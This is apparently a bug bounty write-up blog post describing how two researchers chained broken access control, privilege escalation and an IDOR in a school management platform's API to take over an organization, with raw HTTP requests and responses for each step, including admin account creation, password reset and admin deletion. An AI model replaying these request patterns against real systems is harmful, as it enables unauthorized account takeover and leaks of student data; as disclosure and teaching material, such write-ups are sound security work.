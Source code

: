 ```yaml
---
title: "Taking Over an Entire Organization - A Journey Through Multiple Bugs"
seoTitle: "Taking Over an Entire Organization - A Journey Through Multiple Bugs"
datePublished: Mon Jun 12 2023 15:36:47 GMT+0000 (Coordinated Universal Time)
cuid: clit0ovif000p09l7gv5shskj
slug: taking-over-an-entire-organization-a-journey-through-multiple-bugs
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1686584109939/d21a2887-3fa1-4e1b-b4d5-a347212a4960.jpeg
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1686584167263/413b0100-0fb7-47d6-b751-17710af05b26.jpeg
tags: hacking, hackernews, penetration-testing, bugbounty, bugbountytips

---
```


## **Introduction**

Today, I want to share a thrilling adventure, a tale of how a few seemingly harmless bugs can snowball into a security nightmare. Through collaborative work with my friend [DreyAnd](https://twitter.com/dreyand_) back in **April 2023,** we managed to expose vulnerabilities that eventually led to a **total organizational takeover.**

## **The Discovery**

Our journey began with an application we were testing - a school management platform designed to enable teachers and managers to control classes, students, examinations, and other resources. The platform boasted a substantial user base of students.

The first issue we spotted was that we needed a way to leak all the data and UUIDs of these numerous students.

Surprisingly, the first bug was found in a place where most would feel secure - the `admin` endpoint. Despite the endpoint itself being inaccessible, we discovered a **Broken Access Control** mechanism under this admin endpoint. Although it should have been locked behind administrative privileges, a properly formatted backend request allowed us to leak a vast amount of user data. This included information from students, teachers, and even admins.

By simply sending a `GET` request to the `/v1/admin/<organization>/customers/getUsers?=*` endpoint, we were able to gather:

* Usernames
    
* User ID
    
* Email Address
    
* Hostname
    
* IP Address
    
* Account Expiration
    

```http
GET /v1/admin/<organization>/customers/getUsers?=* HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <low permission user auth>
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

[
  {
    "account_id": "<userid>",
    "avatar_url": "https://api.redacted.com/v2/avatar/?id=1234567",
    "first_name": "Hacker ",
    "last_name": "Admin1",
    "title": "",
    "role": "Administrator",
    "devices": [],
    "email": "hackeradmin@redacted.com",
    "username": "hackeradmin1337",
    "external_person_key": "1234567",
    "end_date": "2027-07-25T00:00:00",
      "last_session": {
        "broadcast_id": "1234-1234-1234-1234-1234ge321",
        "account_id": "<userid>",
        "created": "2027-02-27T17:56:27.4194925",
        "completed": "2027-02-27T17:57:34.0976831",
        "satellite_server_id": 123456,
        "IP": "<IP>",
        "roster_id": 12345,
        "customer_id": "<userid>",
      },
      "created_by": "<creatorid>",
      "roster_id": 54321,
      "name": "creator"
    },
    "schools": [
      {
        "school_id": "<ID>",
        "school_code": "<CODE>",
        "name": "school"
      }
  ]
```

This was our first red flag. Despite being a low-privilege account, we could fetch all the UUIDs we needed for an attack.

Next, we observed that while these **low-privilege accounts could not create admin accounts**, they could, quite strangely, **create manager accounts** which allowed us to do a vertical **Privilege Escalation**.

```http
POST /v1/<organization>/users HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <low permission user auth>
Origin: https://www.redacted.com

{
  "first_name": "drey",
  "last_name": "ahnd",
  "username": "DreyAnd",
  "external_person_key": "",
  "email": "hacktus+5@wearehackerone.com",
  "role": "Manager",
  "schools": [
    "<ID>"
  ],
  "password": "Password",
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 22
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

{"account_id":<ManagerID>}
```

This was our second clue that things were not quite right.

Our journey didn't stop at the manager level. We sought to determine whether we could escalate our privileges even further to obtain `admin` status. If we could go from a `low-privilege` account to a manager account, what was stopping us from becoming admins?

We discovered two significant bugs that allowed us to elevate our permissions.

The first was a **Privilege Escalation** bug that let us modify our own permissions - the same technique we had used with the `low-privilege` account - and upgrade to an `admin`.

```http
POST /v1/<organization>/users HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <manager auth>
Origin: https://www.redacted.com

{
  "first_name": "Hacker",
  "last_name": "Admin",
  "username": "hacktus",
  "external_person_key": "",
  "email": "hacktus@wearehackerone.com",
  "role": "Administrator",
  "schools": [
    "<ID>"
  ],
  "password": "Password",
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 22
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

{"account_id":<AdminID>}
```

The second bug was an **Insecure Direct Object Reference (IDOR)** that let us modify the data of any existing `admin` account - specifically the email and password. With this capability, we could essentially take over any admin account within the organization.

```http
PUT /v1/<organization>/users/<adminid> HTTP/2
Host: api.redacted.com
Content-Length: 339
Accept: */*
Content-Type: application/json
Authorization: Basic <admin auth>

[
    {
        "first_name": "tookover",
        "last_name": "by manager",
        "username": "admin",
        "external_person_key": "",
        "email": "test@redacted.com",
        "role": "Administrator",
        "schools": [
            "<ID>"
        ],
        "password": "NewPassword",
    }
]
```

With these newfound bugs, we had effectively breached the heart of the administrative sphere.

## **The Impact**

What came next was something we didn't initially foresee. Using the admin access we had just secured, we managed to delete all other admin accounts, effectively taking over the entire organization.

```http
DELETE /v1/<organization>/users/<userid> HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <admin auth>
```

Our findings demonstrated the massive impact of these bugs. The organization's integrity was at risk due to the snowballing effect of several vulnerabilities that, individually, may not have appeared as critical threats.

## **Conclusion**

In this journey of discovery, we've learned how crucial it is to understand the implications of seemingly insignificant bugs. More importantly, we have demonstrated how a chain of these bugs can potentially lead to a full organizational takeover.

In the ever-evolving landscape of cybersecurity, there's never been a more important time to ensure the safety of our digital spaces. Remember - when it comes to security, every bug counts, no matter how small it may seem.

*Happy hacking and stay secure!*